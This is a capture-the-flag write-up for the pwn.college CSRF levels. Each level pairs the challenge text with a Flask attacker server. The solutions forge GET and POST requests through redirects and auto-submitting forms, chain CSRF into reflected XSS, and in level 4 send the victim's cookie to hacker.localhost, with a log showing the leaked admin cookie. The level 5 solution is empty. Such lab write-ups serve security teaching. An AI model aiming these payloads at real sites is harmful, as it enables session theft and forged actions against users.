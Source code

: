 ```yaml
---
tags: ["Web Security", "Cross Site Request Forgery"]
title: "CSRF - Cross Site Request Forgery"
description: CSRF - Cross Site Request Forgery
reference: https://pwn.college/intro-to-cybersecurity/web-security/
---
```


# 1

## Description

You've used XSS to inject JavaScript to cause the victim to make HTTP requests. But what if there is no XSS? Can you just "inject" the HTTP requests directly?

Shockingly, the answer is yes. The web was designed to enable interconnectivity across many different websites. Sites can embed images from other sites, link to other sites, and even redirect to other sites. All of this flexibility represents some serious security risks, and there is almost nothing preventing a malicious website from simply directly causing a victim visitor to make potentially sensitive requests, such as (in our case) a GET request to http://challenge.localhost/publish!

This style of forging requests across sites is called Cross Site Request Forgery, or CSRF for short.

Note that I said almost nothing prevents this. The Same-origin Policy was created in the 1990s, when the web was still young, to (try to) mitigate this problem. SOP prevents a site at one Origin (say, http://www.hacker.com or, in our case, http://hacker.localhost:1337) from interacting in certain security-critical ways with sites at other Origins (say, http://www.asu.edu or, in our case, http://challenge.localhost/). SOP prevents some common CSRF vectors (e.g., when using JavaScript to make a requests across Origins, cookies will not be sent!), but there are plenty of SOP-avoiding ways to, e.g., make GET requests with cookies intact (such as full-on redirects).

In this level, pwnpost has fixed its XSS issues (at least for the admin user). You'll need to use CSRF to publish the flag post! The /challenge/victim of this level will log into pwnpost (http://challenge.localhost/) and will then visit an evil site that you can set up (http://hacker.localhost:1337/). hacker.localhost points to your local workspace, but you will need to set up a web server to serve an HTTP request on port 1337 yourself. Again, this can be done with nc or with a python server (for example, by using http.server or simply adapting the challenge server code itself!). Because these sites will have different Origins, SOP protections will apply, so be careful about how you forge the request!

## Solution

The server will cause the victim redirect to the endpoint that we want him to visit.

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False


@app.route("/", methods=["GET"])
def challenge_get():
    return flask.redirect("http://challenge.localhost:80/publish", code=301)

app.run("127.0.0.1", 1337)
```

---

# 2

## Description

Recall that requests that originate from JavaScript run into the Same-Origin Policy, which slightly complicated our CSRF in the previous level. You figured out how to make a GET request without JavaScript. Can you do the same for POST?

Recall that a typical POST request is a result of either a JavaScript-invoked request (no good for SOP) or an HTML form submission. You'll need to do the latter. Of course, the /challenge/victim won't click the Submit button for you --- you'll have to figure out how to do that yourself (HINT: JavaScript can click that button; the request will still count as originating from the form!).

Go POST-CSRF to the flag!

## Solution

1. cause the victim get to the endpoint `/r`
2. the `/r` endpoint will redirect the client to `http://challenge.localhost:80/publish` with the `POST` method

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False

@app.route("/", methods=["GET"])
def root():
    return """
    <html>
    <body onload="document.forms[0].submit()">
        <form action="http://hacker.localhost:1337/r" method="post">
        </form>
    </body>
    </html>
    """

@app.route("/r", methods=["POST"])
def redirect():

    return flask.redirect("http://challenge.localhost:80/publish", code=307)

app.run("127.0.0.1", 1337)
```

---

# 3

## Description

Let's start putting a few things together... A CSRF can lead to many things, including other injections! Use the CSRF in this level to trigger a XSS and invoke an alert("PWNED") somewhere in http://challenge.localhost!

HINT: You will likely want to use JavaScript on your http://hacker.localhost:1337 page to send a GET request with <script> tags in a URL parameter. Be careful: if you encode this JavaScript in your HTML, your <script> tag will have the word </script> in a string (the URL parameter). This string </script> will actually be parsed by your browser as the closing tag of your page's actual <script> tag, and all hell will break loose.

If you encounter this error, I recommend dynamically building that string (e.g., "</s"+"cript>") in the JavaScript that runs on http://hacker.localhost:1337.

## Solution

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False

@app.route("/", methods=["GET"])
def root():
    return flask.redirect("http://challenge.localhost:80/ephemeral?msg=<script>alert('PWNED')</script> HTTP/1.1", code=301)

@app.route("/r", methods=["POST"])
def redirect():
    return flask.redirect("http://challenge.localhost:80/publish", code=307)

app.run("127.0.0.1", 1337)
```

---

# 4

## Description

Okay, now that you have the CSRF-to-XSS chain figured out, pull off a CSRF leading to an XSS leading to a cookie leak that'll allow you to log in and get the flag!

HINT: Your solution might have two levels of JavaScript: one that runs on your http://hacker.localhost:1337 page, and one that runs in the reflected XSS. We suggest testing the latter first, by manually triggering the page with that input and seeing the result. Furthermore, as this code might be complex, be VERY careful about URL encoding. For example, + will not be encoded to %2b by most URL encoders, but it is a special character in a URL and gets decoded to a space ( ). Needless to say, if you use + in your JavaScript, this can lead to complete havoc.

## Solution

1. Run a hacker server that the victim will be redirect to `challenge.local` site and send the `challenge.local` site cookie to the hacker by combing CSRF and XSS

```python
#!/opt/pwn.college/python

import tempfile
import flask
import os

app = flask.Flask(__name__)

app.config['WTF_CSRF_ENABLED'] = False

@app.route("/", methods=["GET"])
def root():
    return flask.redirect("http://challenge.localhost:80/ephemeral?msg=<script>fetch(`http://hacker.localhost:1337/r?=msg=${document.cookie}`" + ", { method: 'GET', credentials: 'include', mode: 'cors'});</script>", code=301)

@app.route("/r", methods=["GET"])
def redirect():
    return ""
```

2. Get the victim cookie from hacker server log

```
127.0.0.1 - - [29/Jul/2025 12:18:05] "GET / HTTP/1.1" 301 -
127.0.0.1 - - [29/Jul/2025 12:18:05] "GET /r?=msg=auth=admin|.QX5kzMzwCM0YjMyEzW} HTTP/1.1" 200 -
```

---

# 5

## Description

This level closes the loophole that allowed you to steal cookies from JavaScript. Cookies have a special setting called httponly, and when this is set, the cookie is only accessible in HTTP headers, and not through JavaScript. This is a security measure, aimed to prevent exactly the type of cookie pilfering that you have been doing. Luckily, Flask's default session cookie is set to be httponly, so you cannot steal it from JavaScript.

So, now how would you get the flag with your CSRF-to-XSS shenanigans? Luckily, you don't need the cookie! Once you have JavaScript execution within the page, you can freely fetch() other pages without worrying about the Same Origin Policy, since you now live in the same Origin. Use this, read the page with the flag, and win!

## Solution

